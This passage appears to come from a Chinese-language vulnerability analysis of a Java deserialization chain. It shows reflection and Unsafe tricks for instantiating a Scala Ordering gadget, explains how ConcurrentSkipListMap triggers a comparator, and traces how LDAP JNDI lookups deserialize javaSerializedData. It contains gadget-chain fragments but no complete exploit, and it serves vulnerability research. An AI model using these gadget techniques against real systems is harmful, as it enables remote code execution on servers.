

IterableOrdering没有无参构造函数，代码中为了方便构造该对象，我们可以通过以下方式来实例化它，`newConstructorForSerialization`实际上还受到classloader约束（双亲委派）：

```java
Class<?> clazzOrder = Class.forName("scala.math.Ordering$IterableOrdering");

Constructor<?> ctorOrder = rf.newConstructorForSerialization(
    clazzOrder, StubClassConstructor.class.getDeclaredConstructor()
);
Object iterableOrdering = ctorOrder.newInstance();
```

当然，利用unsafe也是可以的：

```java
Field fieldUnsafe = Unsafe.class.getDeclaredField("theUnsafe");
fieldUnsafe.setAccessible(true);
Unsafe unsafe = (Unsafe) fieldUnsafe.get(null);
Object iterableOrdering = unsafe.allocateInstance(clazzOrder);
```


### 4.4. ConcurrentSkipListMap

在反序列化时，触发ConcurrentSkipListMap的readObject魔术方法，其中，当要保存的entry大于1条时 ，会调用 cpr 方法，进一步触发 compartor 的compare方法，所以我们构造map的时候需要put两次。



## 5. LDAP反序列化

之前的JNDI漏洞利用中，笔者主要通过RMI中实例化bean javax.el.ELProcessor并调用eval方法这一机制进行RCE，而本漏洞的漏洞说明中，阐述其通过LDAP反序列化最终完成了RCE。本节先简单说说JNDI LDAP概念，然后再说一下LDAP客户端的反序列化漏洞。

### 5.1. 概念入门

#### Naming Concepts

JNDI Java Naming and Directory Interface

在任何的计算机系统中，“naming service” 命名服务，都是一项必不可少的基础机制，通过各个名称我们可以找到相应的系统对象、系统服务，正如我们写邮件时标注的收件人名称一样。


naming service的运行机制就是映射人们的名称到具体的对象，如相应的地址、标识ID，对计算机来说就是就是某种对象。

如在域名系统中，将主机名转为IP地址 `www.example.com => 192.168.1.1` ，在文件系统中将文件名转换为可被程序是吧的物理地址 `c:\bin\autoexec.bat ==> File Reference`，这里所举的两个例子揭示了命名服务的的广泛存在与价值，当然，对于具体的应用对象来说，这也方便了其暴露开放使用。

#### Bindings

关联 名称 与 对象 的这一行为我们称之为 `binding` 。

#### References And Addresses

在命名服务中，一些对象不能直接被存储其中，即命名服务中不会直接放置对象的副本，相应地，会使用 reference 来取代。reference 中包含了如何访问某个对象的信息，通常其简要地包含了如何与对象进行通信，同时对象本身可能包含了更多的状态信息。通过使用reference，你能联系到 对象 ，并获取对象更多的信息。

实际上，在LDAP利用中，通过reference指定恶意字节码HTTP URL地址，当客户端本没有该对象时，会从reference指定地址去加载字节码从而获取对象。当然，在JDK高版本中这一直接问题已经修复。

#### Naming Systems and Namespaces

一个命名系统关联了多组 context ，这些上下文的命名机制都是一致的，即都是相同的类型，也都提供了一些通用的操作，如前文所说的 绑定、解绑等。

实现了DNS的系统是命名系统，使用LDAP机制通信的系统也是命名系统。

命名系统提供了命名服务给客户端使用者，客户端可执行与命名机制相关的一系列操作，命名服务的访问是通过它的相关接口。DNS提供了机器名到IP地址的映射服务，LDAP则提供了LDAP名称到LDAP条目（LDAP entries）的映射服务。文件系统提供了文件名到文件或目录的映射服务。

命名空间是命名系统中所有可能名称的集合，这里可能指 名称上的泛集 。

这里提到的entry与LDAP客户端反序列化有关。

### 5.2. 反序列化问题

LDAP反序列化的线程堆栈信息如下：

```
readObject:431, ObjectInputStream (java.io)
deserializeObject:531, Obj (com.sun.jndi.ldap)
decodeObject:239, Obj (com.sun.jndi.ldap)
c_lookup:1051, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
```


com.sun.jndi.ldap.Obj#decodeObject：在该方法中可以看到，当我们的attrs设置了javaSerializedData时会反序列化该数据：



attrs为ldap entry条目值，entry概念前文有提到：




参考

https://docs.oracle.com/javase/tutorial/jndi/index.html

https://juejin.cn/post/6971315174263226404

https://hackerone.com/reports/1529790

https://docs.aiven.io/docs/products/kafka/kafka-connect/howto/debezium-source-connector-mysql
